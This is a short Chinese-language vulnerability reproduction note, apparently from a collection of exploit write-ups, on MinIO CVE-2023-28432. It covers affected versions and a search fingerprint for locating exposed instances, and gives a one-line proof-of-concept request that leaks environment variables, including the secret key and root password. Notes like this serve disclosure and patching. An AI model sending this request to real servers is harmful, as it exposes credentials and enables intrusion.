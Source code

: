 # 

# MinIO verify 敏感信息泄漏漏洞 CVE-2023-28432

## 漏洞描述

Minio 是一个多云对象存储框架。在从RELEASE.2019-12-17T23-16-33Z开始到RELEASE.2023-03-20T20-16-18Z之前的集群部署中，MinIO存在漏洞发送请求后返回所有环境变量，包括MINIO_SECRET_KEY和MINIO_ROOT_PASSWORD，导致信息泄露。分布式部署的所有用户都会受到影响

## 漏洞影响

```
MinIO <= RELEASE.2023-03-20T20-16-18Z
```

## 网络测绘

```
app="minio"
```

## 漏洞复现

登陆页面

![image-20230417093052971](images/image-20230417093052971.png)

验证POC (默认端口:9000)

```
POST /minio/bootstrap/v1/verify
```

![image-20230417093122553](images/image-20230417093122553.png)
